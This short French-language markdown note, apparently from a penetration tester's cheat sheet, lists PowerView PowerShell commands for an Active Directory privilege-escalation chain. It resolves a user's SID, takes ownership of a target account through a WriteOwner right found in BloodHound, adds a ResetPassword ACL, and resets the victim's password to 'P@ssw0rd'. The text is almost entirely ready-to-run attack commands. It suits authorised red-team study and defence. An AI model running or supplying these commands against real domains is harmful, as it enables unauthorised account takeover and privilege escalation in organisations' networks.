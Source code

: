 ```yaml
---
public: true # set to true to make the article publishable
---
```


```powershell
# Récupération du SID d'un utilisateur
. .\PowerView.ps1
$sid = Convert-NameToSid "tom"
```


```title="Réinitialisation du mot de passe AD via appropriation de l'objet utilisateur cible"

# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity Target_AD_User -OwnerIdentity source_user
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity Target_AD_User -PrincipalIdentity source_user -Rights ResetPassword

# Réinitialisation du password
$pass = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
Set-DomainUserPassword -Identity Target_AD_User -Password $pass
```

```
#
```
